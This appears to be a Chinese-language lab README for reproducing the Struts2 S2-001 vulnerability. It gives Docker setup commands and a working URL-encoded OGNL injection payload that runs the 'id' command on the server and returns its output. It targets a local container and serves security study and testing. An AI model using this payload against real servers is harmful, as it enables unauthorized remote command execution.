


环境搭建
```
docker build -t s2-001 .
docker run -d -p 9090:8080 s2-001
```




漏洞复现
```
http://127.0.0.1:9090/demo/validate.action?payload=%25{%23a%3D(new+java.lang.ProcessBuilder(new+java.lang.String[]{%22id%22})).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew+java.io.InputStreamReader(%23b)%2C%23d%3Dnew+java.io.BufferedReader(%23c)%2C%23e%3Dnew+char[50000]%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new+java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()}
```



